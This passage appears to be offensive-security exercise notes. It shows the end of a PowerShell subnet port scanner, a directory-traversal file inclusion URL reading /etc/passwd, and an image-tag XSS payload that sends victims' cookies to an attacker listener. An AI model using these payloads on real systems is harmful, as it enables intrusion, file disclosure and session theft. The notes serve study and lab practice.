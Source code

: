 ```powershell
                    $connectResult = $tcpClient.BeginConnect($targetIp, $port, $null, $null)
                    if ($connectResult.AsyncWaitHandle.WaitOne(200, $false)) {
                        $tcpClient.EndConnect($connectResult) | Out-Null
                        $openPorts += $port
                    }
                } catch { } finally { $tcpClient.Close() }
            } # End foreach port

            if ($openPorts.Count -gt 0) {
                [PSCustomObject]@{
                    IPAddress      = $targetIp
                    OpenPortsCount = $openPorts.Count
                    OpenPorts      = $openPorts -join ', '
                }
            }
        } # End foreach IP
    }
}

# --- Usage ---
$subnet = "10.10.0.32/29"
$portsToScan = 8075..8085
Invoke-TcpPortScan -SubnetCidr $subnet -Ports $portsToScan -Verbose
```
### 12. Edit URL to view `/etc/passwd`? Why might it work?

**URL:** `http://nbn.corp/hello.php?name=Alice&lang=en`
**PHP:** `include($lang . ".php");`

**Modified URL:**
`http://nbn.corp/hello.php?name=Alice&lang=../../../../../../etc/passwd`
(Or potentially `...passwd%00` on older PHP)

The `lang` parameter is directly used in `include()`. If not sanitized, directory traversal (`../`) can make `include()` attempt to load `/etc/passwd`. If readable by the web server, its content will be outputted into the web page from the client's side

### 13. XSS payload to evade "script" filter, steal cookies, and redirect?

**Payload:**
```html
<img src=x onerror="window.location='http://10.10.0.32:8080/?c='+document.cookie">
```

**Explanation:**
* Uses `<img src=x>` which fails, triggering `onerror`.
* The `onerror` JavaScript redirects the browser to the attacker's listener (`http://10.10.0.32:8080`).
* It appends the victim's cookies (`document.cookie`) to the redirect URL.
* Evades the filter because it doesn't contain the word "script".
![[xss.png]]
### 14. Multipart Question
